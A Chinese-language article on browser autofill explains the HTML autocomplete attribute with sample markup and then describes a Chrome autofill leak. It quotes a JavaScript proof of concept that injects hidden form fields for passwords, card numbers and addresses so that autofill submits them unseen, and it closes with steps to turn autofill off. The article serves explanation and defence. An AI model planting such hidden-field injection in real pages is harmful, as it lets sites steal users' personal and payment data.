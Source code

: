 # 浏览器安全机制

# AutoComplete: 自动填充

自动填充(Autofill )是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```html
<textarea name="shipping-address" autocomplete="shipping street-address"></textarea>
<input type="text" name="shipping-city" autocomplete="shipping address-level2">
<input type="text" name="shipping-state" autocomplete="shipping address-level1">
<input type="text" name="shipping-country" autocomplete="shipping country-name">
<input type="text" name="shipping-postal-code" autocomplete="shipping postal-code">
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果: ![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/E2941AAA-E9DC-4A9A-AA10-8506044FBBB2.png)

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-WChv_tXK8rqUASVNxrqNSw.gif)

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```js
var autocompletes = [
  'name',
  'honorific-prefix',
  'given-name',
  'additional-name',
  'family-name',
  'honorific-suffix',
  'nickname',
  'username',
  'new-password',
  'current-password',
  'organization-title',
  'organization',
  'street-address',
  'address-line1',
  'address-line2',
  'address-line3',
  'address-level4',
  'address-level3',
  'address-level2',
  'address-level1',
  'country',
  'country-name',
  'postal-code',
  'cc-name',
  'cc-given-name',
  'cc-additional-name',
  'cc-family-name',
  'cc-exp',
  'cc-exp-month',
  'cc-exp-year',
  'cc-csc',
  'cc-type',
  'transaction-currency',
  'transaction-amount',
  'language',
  'bday',
  'bday-day',
  'bday-month',
  'bday-year',
  'sex',
  'url',
  'photo',
  'tel',
  'tel-country-code',
  'tel-national',
  'tel-area-code',
  'tel-local',
  'tel-local-prefix',
  'tel-local-suffix',
  'tel-extension',
  'impp'
];

emailField.addEventListener('focus', function() {
  var wrap = autocompletes.reduce(function(wrapper, field) {
    var input = document.createElement('input');

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement('div'));

  // Hide the wrapper
  wrap.classList.add('hidden');
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener('focus', arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

* 进入 Chrome 设置：`chrome://settings/autofill`
* 关闭当前模态窗口
* 反选自动填充选项

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-NKyNK5fQWXeLHLCOD_ZDaA.png)
